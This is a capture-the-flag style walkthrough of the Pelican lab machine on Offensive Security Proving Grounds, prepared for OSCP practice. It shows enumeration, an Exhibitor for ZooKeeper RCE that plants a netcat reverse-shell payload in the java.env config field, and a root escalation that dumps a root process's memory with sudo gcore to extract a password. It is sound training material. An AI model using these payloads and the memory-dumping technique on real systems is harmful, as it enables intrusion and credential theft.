





Pelican - OSCP Machine Walkthrough
Platform: Offensive Security Proving Grounds
OS: Linux (Debian)
Difficulty: Intermediate
IP: 192.168.xxx.xxx
Overview
Pelican is a Linux machine that chains together a publicly known Exhibitor for ZooKeeper RCE vulnerability to get an initial foothold as a low-privileged user, then abuses a sudo misconfiguration allowing gcore to be run as root -> leaking root credentials straight out of process memory.
Enumeration
Nmap
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2
139/tcp open netbios-ssn Samba smbd 3.X - 4.X
445/tcp open netbios-ssn Samba smbd 4.9.5-Debian
631/tcp open ipp CUPS 2.2.10
2181/tcp open zookeeper Zookeeper 3.4.6-1569965
2222/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2
8080/tcp open http Jetty 1.0
8081/tcp open http nginx 1.14.2
39605/tcp open java-rmi Java RMIA lot going on here. The key ones to note:
- Port 8080 -> Jetty returns a 404, but port 8081 (nginx) redirects straight to
http://192.168.241.98:8080/exhibitor/v1/ui/index.html. - Port 2181 -> ZooKeeper, which ties directly into the above.
- Port 631 -> CUPS 2.2, no usable exploits on searchsploit.
Dead ends
- SMB (139/445) -> no accessible shares.
- CUPS 2.2 -> no exploits.
- ZooKeeper (2181) -> no direct exploit, but exploitable indirectly via Exhibitor.
- Jetty on 8080 -> directory and file fuzzing returned nothing useful.
Initial Foothold -> Exhibitor for ZooKeeper RCE
Navigating to http://192.168.xxx.xxx:8081 redirects to the Exhibitor for ZooKeeper web UI on port 8080.
Exhibitor has a well-known RCE via the Config tab -> the java.env script field is executed by the ZooKeeper process. Searchsploit has an entry for this.
Steps:
- Click the Config tab in the Exhibitor UI.
- Toggle Editing ON.
- In the
java.env scriptfield, insert a reverse shell:
$(/bin/nc -e /bin/sh 192.168.xxx.xxx 4444 &)- Set up a listener:
sudo rlwrap nc -nvlp 4444- Click Commit in the UI to apply the config.
The shell connects back and we're running as charles out of /opt/zookeeper.

Local Flag
Once in, navigate to charles' home directory and grab the local flag:
Local flag: d5baf9f7aee5740cb3ddb5a6f95b4xxx

Privilege Escalation -> gcore + Process Memory Dump
sudo -l
User charles may run the following commands on pelican:
(ALL) NOPASSWD: /usr/bin/gcoreCharles can run gcore as root -> a GNU debugger utility that dumps the memory of a running process to a file. The plan: dump a root-owned process and grep the output for credentials.
Find a root process to dump
ps aux | grep -i rootLook for a process that's likely to have credentials in memory (e.g., a password manager or similar daemon). On this box, PID 513 was the target.
Dump the process memory
sudo -u root gcore -a -o pass 513This saves a core dump as pass.513.
Extract credentials from the dump
strings pass.513 | grep -A1 -i passwordThe strings output reveals:
001 Password: root:ClogKingpinInning731

Switch to root
su root
# Password: ClogKingpinInning731Root Flag
cd /root
cat proof.txtRoot flag: a0cd40939dd948f03097858b6571cxxx

Summary
Key Takeaways
- Exhibitor for ZooKeeper should never be exposed without authentication -> the config UI allows arbitrary command execution by design.
gcoreas sudo is a classic privesc primitive. Any process running as root can have its memory dumped, and sensitive data (passwords, tokens, keys) often lives unencrypted in process memory.- Always check
ps auxfor interesting root processes when you havegcoreorptracecapabilities.